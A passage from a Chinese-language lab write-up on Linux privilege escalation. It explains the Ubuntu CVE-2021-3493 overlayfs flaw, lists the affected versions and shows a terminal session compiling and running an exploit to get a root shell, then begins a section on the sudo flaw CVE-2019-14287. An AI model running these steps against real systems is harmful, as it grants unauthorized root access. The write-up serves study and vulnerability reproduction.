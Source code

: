 ###  1.2 CVE-2021-3493 提权

CVE-2021-3493 是一个 Ubuntu 特定的问题，它在 Ubuntu 中没有正确验证关于用户名称空间的文件系统功能的应用程序。由于 Ubuntu 带有一个支持非特权的 overlayfs 挂载的补丁，因此本地攻击者可以使用它来进行提权操作

受影响的版本包括：

- Ubuntu 20.10
- Ubuntu 20.04 LTS
- Ubuntu 18.04 LTS
- Ubuntu 16.04 LTS
- Ubuntu 14.04 ESM

```bash
# 查看系统版本以分辨是否属于受影响的版本
lonelyor@ubuntusrv2004:~/CVE-2021-3493$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 20.04 LTS
Release:        20.04
Codename:       focal
```

**POC代码渗透过程**

```bash
# EXP代码已经在 ubantu2004 home 目录下
lonelyor@ubuntusrv2004:~$ ls
CVE-2016-5195  CVE-2019-14287  CVE-2021-3156  CVE-2021-3493  CVE-2021-4034  linux-image  tmp

# 进入相应的文件夹
lonelyor@ubuntusrv2004:~$ cd  CVE-2021-3493
lonelyor@ubuntusrv2004:~/CVE-2021-3493$ ls
exploit  exploit.c  ovlcap  README.md

# 对EXP代码进行预编译
lonelyor@ubuntusrv2004:~/CVE-2021-3493$ gcc exploit.c

# 运行EXP代码
lonelyor@ubuntusrv2004:~/CVE-2021-3493$ ./exploit

# 提权成功！升级为root用户
bash-5.0# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(lonelyor)

```

## 2. CVE-2019-14287：利用sudo提权复现

### 2.1 漏洞原理

这个漏洞是由于管理员不规范的配置了`/etc/sudoers`文件造成的！
